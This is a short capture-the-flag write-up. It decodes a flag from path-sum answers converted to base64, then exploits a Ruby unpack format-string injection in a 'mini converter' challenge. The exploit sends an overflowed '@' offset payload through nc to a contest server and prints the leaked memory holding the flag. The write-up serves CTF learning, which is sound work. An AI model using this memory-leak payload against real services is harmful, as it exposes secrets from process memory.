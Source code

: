 After solving 100 stages, I got this message: `@@@@@ Congratz! Your answers are an answer`

But this is not flag.

<br>

In every stage, we can get a number of smallest path sum.

And this value will not change in different connections.

So I try to convert the numbers(ascii code) to characters in every stages, and I got this base64 string: `RkxBRyA6IGcwMG9vT09kX2owQiEhIV9fX3VuY29tZm9ydDRibGVfX3MzY3VyaXR5X19pc19fbjB0X180X19zZWN1cml0eSEhISEh`

Decode it, and get flag:

`echo RkxBRyA6IGcwMG9vT09kX2owQiEhIV9fX3VuY29tZm9ydDRibGVfX3MzY3VyaXR5X19pc19fbjB0X180X19zZWN1cml0eSEhISEh | base64 -d`

`FLAG : g00ooOOd_j0B!!!___uncomfort4ble__s3curity__is__n0t__4__security!!!!!`

# mini converter

The problem is on `puts input.unpack("C*#{input}.length")`

It put `input` to the string of unpack

So we can control the result of unpack to leak flag.

In Ruby unpack format, `@` can `skip to the offset given by the length argument`

If we assign a large positive number to it, the number will overflow to negative number.

Then we can leak previous content, including the `flag`.

Payload:

`nc 110.10.147.105 12137 | strings | grep flag`

and then paste `@18446744073708410316A1150000`, `1` repeatedly.

```
$ nc 110.10.147.105 12137 | strings | grep flag
@18446744073708410316A1150000
1

$(cflags)  -fPIC
 $(DEFS) $(cppflags)
$(cxxflags)
DEFS) $(cppflags)
cflags
cppflags
cxxflags
optflags
debugflags
warnflags
strict_warnflags
flags

@18446744073708410316A1150000
1

flag
flag
$(optflags) $(debugflags) $(warnflags)
flag = "FLAG{Run away with me.It'll be the way you want it}"
```

